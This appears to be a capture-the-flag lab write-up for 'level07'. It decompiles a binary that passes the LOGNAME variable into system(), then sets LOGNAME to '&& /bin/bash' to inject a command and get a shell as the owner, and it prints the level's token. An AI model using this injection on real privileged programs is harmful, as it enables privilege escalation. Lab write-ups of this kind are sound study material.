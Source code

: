 ## LEVEL07  
  
We download the binary file  `scp -P 4242 level07@<ip>:/home/user/level07/level07 Documents/`  
  
## GHIDRA  
When we decompile the binary, we see these lines:  
`pcVar1 = getenv("LOGNAME");`  
This line assigns the environment variable `LOGNAME`(`level07`) to `pcVar1`  
`asprintf(&local_1c,"/bin/echo %s ",pcVar1);`  
This line fills `local_1c` with the path to `echo` followed by `pcVar1` wich is `level07`  
`iVar2 = system(local_1c);`  
The program execute `system(local_1c)` and store the result in `iVar2`  
  
## EXPORT  
We change the environment variable `LOGNAME` into `&& /bin/bash` with export.  
The system call executes `LOGNAME`, we can open a new bash with the privileges of the program's owner `flag07`  
`export LOGNAME="&& /bin/bash"`  
`./level07`, then, inside the new bash `getflag` and we get the token.  
  
## GETFLAG TOKEN   
token_passwd_level08: `fiumuikeil55xe9cu4dood66h`  